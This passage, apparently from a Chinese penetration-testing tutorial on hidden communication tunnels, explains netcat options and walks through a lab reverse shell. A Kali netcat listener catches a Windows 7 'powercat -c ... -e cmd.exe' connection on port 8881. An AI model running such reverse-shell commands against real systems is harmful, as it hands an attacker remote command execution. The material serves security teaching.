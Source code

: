 * -l：监听模式，用于入站连接
* -p：指定监听端口
* -e：指定要启动的进程名称
* -v：显示详情

（3）通过nc反向连接Powercat

在Kali中执行如下命令：

```
netcat -l -p 8881 -vv
```

![](./img/隐藏通信隧道基础知识/49.png)

然后在Windows7中执行如下命令，-c参数用于提供想要连接的IP地址：

```
powercat -c 192.168.2.7 -p 8881 -v -e cmd.exe
```

![](./img/隐藏通信隧道基础知识/50.png)

